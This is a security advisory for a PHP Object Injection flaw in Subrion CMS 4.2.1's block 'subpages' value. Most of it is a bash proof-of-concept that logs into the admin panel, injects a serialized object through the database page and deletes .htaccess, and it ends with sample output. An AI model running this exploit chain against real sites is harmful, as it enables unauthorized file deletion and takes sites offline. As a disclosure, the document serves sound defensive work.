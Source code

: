 # Subpages - PHP Object Injection

## VulDB-Like Summary

A vulnerability has been found in the Subrion CMS 4.2.1. It has been rated as problematic. Affected by this issue is the file `/admin/blocks.php`. The manipulation of the of the **subpages** value within a block leads to a PHP Object Injection vulnerability. Using CWE to declare the problem leads to CWE-502. Impacted is Integrity and Availability. An attacker might be able inject arbitrary PHP objects within the application context, and use them to achive arbitrary file deletion.

The weakness was presented 02/29/2020 by Alessandro Magnosi (deadc0de) (GitHub Repository). The advisory is shared for download at github.com. This vulnerability is handled as CVE-2020-XXXX. The attack may be launched remotely. A single form of authentication is required for exploitation. Technical details are known and an exploit is publicly available.

## Proof-of-Concept

The following script may be used to easily verify the vulnerability:

```bash
#!/bin/bash

username="admin"
password="Passw0rd!"
target="http://subrion.local/panel/"
proxy="http://127.0.0.1:8080"
id=10
debug=0

# Grep Session Cookie Name
sess_cookie=$(curl -ks -x $proxy $target -I | grep "Set-Cookie" | head -n 1 | grep -oP "INTELLI_\w*\=\w*")
cookies="Cookie: loader=loaded; $sess_cookie"
# Grep CSRF Token
csrf_token=$(curl -ks -x http://127.0.0.1:8080 $target | grep "__st" | grep -oP "value=\"\K([a-zA-Z0-9]*)" | head -n 1)
echo "[*] Logging in"
# Fix the Session Cookie Value and login
res=$(curl -ks -x $proxy $target -X POST --data "__st=$csrf_token&username=$username&password=$password" -H "$cookies" -i | grep "Set-Cookie")

echo "[*] Adding evil PHP Object"
# Get CSRF Token
csrf_token=$(curl -i -s -k -H "$cookies" -x $proxy "$target/panel/database/" | grep "__st" | grep -oP "value=\"\K([a-zA-Z0-9]*)" | head -n 1)

# Generating Payload
payload=$(php serializer.php -c s -t a -u)

if [ $debug -gt 0 ]; then
    echo $payload
fi

# Add the crafted parameter
res=$(curl -i -s -k -X "POST" -x $proxy -H "$cookies" --data-binary "__st=$csrf_token&query=UPDATE++%60subr_blocks%60+SET+%60subpages%60++%3D+%27$payload;%27+WHERE+%60id%60+%3D+$id%3B+&show_query=1&exec_query=Go" "$target/panel/database/")

if [[ $(echo $res | grep "Query OK:" | grep "rows affected") == "" ]]; then
    echo "Could not add the evil PHP Object"
    exit 1
fi
echo "[*] Triggering File deletion"
# Get block ID to trigger
res=$(curl -i -s -k -H "$cookies" -x $proxy "$target/panel/blocks/edit/$id/" &>/dev/null)

# Confirming deletion, checking 404 
res=$(curl -i -s -k -H "$cookies" -x $proxy "$target/panel/blocks/edit/$id/" | head -n 1 | grep -oP "\d{3}")
if [[ "$res" == "404" ]]; then
    echo "[+] Done! Site damaged!"
else
    echo "[-] Error, site patched!"
fi
```

Using the above script should give the following output, proving the vulnerability.

```
$ ./exploit.sh
[*] Logging in
[*] Adding evil PHP Object
[*] Triggering File deletion
[+] Done! Site damaged!
```

When the script finishes, the site should not be reachable anymore, as the .htaccess has been deleted. In case the configuration of the site is more robust, check for the presence of .htaccess within Subrion HOME direcotry.

## Remediation

Currently, no fixes are available for this issue.

## References

*   [https://cwe.mitre.org/data/definitions/1236.html](https://cwe.mitre.org/data/definitions/1236.html)
*   [https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection](https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection)